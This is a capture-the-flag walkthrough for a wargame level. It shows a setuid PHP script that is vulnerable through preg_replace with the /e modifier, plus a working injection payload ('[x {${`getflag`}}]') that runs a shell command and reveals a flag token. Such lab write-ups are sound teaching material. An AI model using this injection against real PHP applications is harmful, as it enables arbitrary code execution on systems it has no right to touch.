 # Level 06 - PHP Script Injection via Regex Evaluation

This level involves exploiting a **PHP script** with an insecure regular expression that uses the deprecated `/e` modifier, allowing arbitrary code execution.

---

## Step 1: Examine Available Files

```bash
ls -la
```

Output:

```
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

We are especially interested in the `level06.php` file:

---

## Step 2: Inspect `level06.php`

```php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

The vulnerability lies in this line:

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

The `/e` modifier evaluates the replacement string as PHP code.

---

## Step 3: Craft a Malicious Payload

We can inject PHP code via the file passed as argument.

Create a file `/tmp/ok`:

```bash
echo '[x {${`getflag`}}]' > /tmp/ok
```

Then run the vulnerable script:

```bash
./level06 /tmp/ok
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

---

## Step 4: Result

The script executes the payload and returns the flag.

### Flag Token:

```text
wiok45aaoguiboiki2tuin6ub
```

---

## ✅ Summary

- Vulnerable PHP regex with `/e` modifier allowed arbitrary code execution.
- Injected backticks inside `${}` to run a shell command.
- Successfully executed `getflag` and retrieved the flag.
